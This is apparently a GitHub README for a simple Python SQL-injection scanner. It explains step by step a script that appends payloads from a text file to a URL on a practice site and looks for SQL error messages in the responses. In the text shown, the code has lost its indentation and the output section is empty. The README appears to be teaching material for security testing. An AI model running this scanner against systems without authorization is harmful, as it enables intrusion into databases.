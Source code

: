 # SQL-Injection
This tool is built using the python programming language.

# Code Description
Using the requests module to make requests to the web page.
```
import requests
```
Save the given URL as a variable.
```
URL = "http://testphp.vulnweb.com/listproducts.php?cat=1"
```

Open the given payload text file "sqlpayload.txt" in read mode
Then read the lines to save the content in a list.
```
f = open("sqlpayload.txt","r")
lines = f.readlines()
```

Iterate through each index in the list from the previous step then combine the URL with the payload text file to check whether a URL is Vulnerable or not.

Then by using get method to retrieve data from a specified resource and content method to see the response’s content (this method access the raw bytes of the response payload, so convert them into a string).

If the returned response value has "Error in your SQL" It will be considered a **Vulnerable Payload**. Else it will be considered a **Not Vulnerable Payload**.

```
for x in lines:
newURL = URL + x
response = requests.get(newURL)
responseString = str(response.content)
if "error in your SQL" in responseString:
print("Vulnerable Payload! : " + x)
else:
print("Not Vulnerable Payload! : " + x)
```

## The Output
